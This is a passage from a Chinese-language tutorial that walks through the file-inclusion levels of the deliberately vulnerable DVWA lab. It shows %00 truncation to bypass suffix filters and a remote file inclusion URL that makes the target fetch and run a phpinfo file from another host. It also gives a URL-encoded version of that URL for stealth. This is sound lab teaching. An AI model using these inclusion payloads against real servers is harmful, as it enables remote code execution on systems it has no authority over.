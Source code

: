 
可惜的是由于本次实验环境的php版本为5.4.31，所以无法进行验证。



[![1.png](http://image.3001.net/images/20161106/14784222529627.png!small)](http://image.3001.net/images/20161106/14784222529627.png)



使用%00截断可以绕过某些过滤规则，例如要求page参数的后缀必须为php，这时链接A会读取失败，而链接B可以绕过规则成功读取。



2.远程文件包含



当服务器的php配置中，选项allow\_url\_fopen与allow\_url\_include为开启状态时，服务器会允许包含远程服务器上的文件，如果对文件来源没有检查的话，就容易导致任意远程代码执行。



在远程服务器192.168.5.12上传一个phpinfo.txt文件，内容如下



[![1.png](http://image.3001.net/images/20161106/14784222814815.png!small)](http://image.3001.net/images/20161106/14784222814815.png)



构造url



> [http://192.168.153.130/dvwa/vulnerabilities/fi/page=http://192.168.5.12/phpinfo.txt](http://www.example.com/)



成功在服务器上执行了phpinfo函数



[![1.png](http://image.3001.net/images/20161106/14784223166097.png!small)](http://image.3001.net/images/20161106/14784223166097.png)



为了增加隐蔽性，可以对[http://192.168.5.12/phpinfo.txt](http://192.168.5.12/phpinfo.txt)进行编码



> [http://192.168.153.130/dvwa/vulnerabilities/fi/page=%68%74%74%70%3a%2f%2f%31%39%32%2e%31%36%38%2e%35%2e%31%32%2f%70%68%70%69%6e%66%6f%2e%74%78%74](http://www.example.com/)



同样可以执行成功



[![1.png](http://image.3001.net/images/20161106/14784223562200.png!small)](http://image.3001.net/images/20161106/14784223562200.png)



****Medium****

--------------
